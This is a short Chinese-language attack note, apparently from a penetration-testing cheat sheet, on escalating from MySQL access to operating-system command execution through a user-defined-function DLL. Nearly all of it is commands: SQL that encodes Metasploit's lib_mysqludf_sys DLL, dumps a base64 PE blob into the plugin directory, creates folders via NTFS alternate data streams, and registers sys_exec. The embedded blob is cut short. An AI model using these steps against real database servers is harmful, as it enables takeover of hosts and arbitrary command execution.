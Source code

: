 - MySQL 5.6.1/MariaDB 10.0.5

**to_base64和from_base64函数**

```
select to_base64(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) 
into dumpfile '/tmp/udf.b64';
```

**编辑base64文件并通过以下方式将其dump到插件目录**

```
select from_base64("TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAA8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1v
ZGUuDQ0KJAAAAAAAAAAzwu3gd6ODs3ejg7N3o4OzafEQs3Wjg7Np8QCzfaODs2nxB7N1o4OzUGX4
s3Sjg7N3o4KzW6ODs2nxCrN2o4OzafEWs3Wjg7Np8RGzdqODs2nxErN2o4OzUmljaHejg7MAAAAA
AAAAAAAAAAAAAAAAUEUAAGSGBgBwsYNLAAAAAAAAAADwACIgCwIJAAASAAAAFgAAAAAAADQaAAAA
EAAAAAAAgAEAAAAAEAAAAAIAAAUAAgAAAAAABQACAAAAAAAAgAAAAAQAADPOAAACAEABAAAQAAAA
AAAAEAAAAAAAAAAAEAAAAAAAABAAAAAAAAAAAAAAEAAAAAA5AAAFAgAAQDQAADwAAAAAYAAAsAIA
AABQAABoAQAAAAAAAAAAAAAAcAAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAwAABwAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALnRleHQAAAAR
EAAAABAAAAASAAAABAAAAAAAAAAAAAAAAAAAIAAAYC5yZGF0YQAABQsAAAAwAAAADAAAABYAAAAA") 
into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```

### DLL使用

- 查找到mysql的目录

```
select @@basedir;
```


- 创建文件夹（没测试成功）

```
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';    //利用NTFS ADS创建lib目录
 
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';    //利用NTFS ADS创建plugin目录
```

- 改变plugin目录位置

```
mysqld.exe –plugin-dir=C:\\temp\\plugins\\
```

- 上传dll

![](https://ae01.alicdn.com/kf/H584c9e7e2eae4110be942b8adfb9de7ba.jpg)

- 安装

```
create function sys_exec returns int soname 'udf.dll';
```

